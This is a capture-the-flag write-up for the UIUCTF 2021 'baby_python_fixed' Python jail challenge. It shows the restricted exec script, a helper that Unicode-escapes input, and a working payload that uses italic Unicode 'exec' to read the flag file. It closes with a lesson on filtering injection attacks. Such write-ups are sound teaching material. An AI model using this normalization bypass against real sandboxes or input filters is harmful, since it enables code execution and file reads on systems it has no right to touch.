

# UIUCTF 2021 - baby_python_fixed Writeup
- Type - Jail
- Name - baby_python_fixed
- Points - 133

## Description
```
whoops, I made a typo on the other chal. it's probably impossible, right? Python 
version is 3.8.10 and flag is at /flag

nc baby-python-fixed.chal.uiuc.tf 1337

author: tow_nater

[challenge.py]
```

## Writeup
The Python file included in the description was a very short but restrictive 4-line file:

```
import re
bad = bool(re.search(r'[a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

This script allows you to run any code that you want, the only characters you can't use are whitespace or lowercase characters. Since practically all of Python is in lowercase (and is case-sensitive), this obviously presented quite a challenge. After racking our brains and doing quite a bit of research, we had crossed off a couple of ideas like Python bytecode (you can't actually run it, I don't think) and a solution from a CTF in like 2013 where they ran code only using symbols (the key to it was deprecated in Python 3.x). One idea that we had stuck with us, but we couldn't quite finish it yet. We knew we could encode characters as hex values (`a` as `\x61`), but that still used a lowercase letter. After some investigation, I found we could use 8-digit Unicode characters (`a` as `\U00000061`). 

I wrote a small Python script that takes input and converts it to Unicode so we could craft our payload:

```
input = input()

print("'", end="")
for letter in input:
    print(hex(ord(letter)).replace("0x", "\\U000000").upper(), end="")

print("'")
```

Using this script, we crafted our payload `print(open("/flag","r").read())` as `'\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029'`. All we needed was a way to run it! Python accepts strings and doesn't throw an error, but it doesn't run it. It wasn't until later that we realized we could use italic characters and have it execute our payload string. Using [an Italic generator](https://lingojam.com/ItalicTextGenerator), we generated `𝘦𝘹𝘦𝘤`, and our final payload was `𝘦𝘹𝘦𝘤('\U00000070\U00000072\U00000069\U0000006E\U00000074\U00000028\U0000006F\U00000070\U00000065\U0000006E\U00000028\U00000022\U0000002F\U00000066\U0000006C\U00000061\U00000067\U00000022\U0000002C\U00000022\U00000072\U00000022\U00000029\U0000002E\U00000072\U00000065\U00000061\U00000064\U00000028\U00000029\U00000029')`. We inserted this payload into the netcat session and it was executed and worked!



**Flag:** `uiuctf{unicode_normalization_is_not_normal_d2f674}`

## Real-World Application
This comes to show how difficult it is to filter invalid inputs. Understanding character encodings and how specific languages and applications handle them is very important when attempting to stop injection attacks. For example, to prevent someone from doing a SQL injection attack, you may block them from using a single quote `'`, but what about an italic single quote? While this may or may not work, my point still stands - you have to be very careful and thoughtful when creating filters. 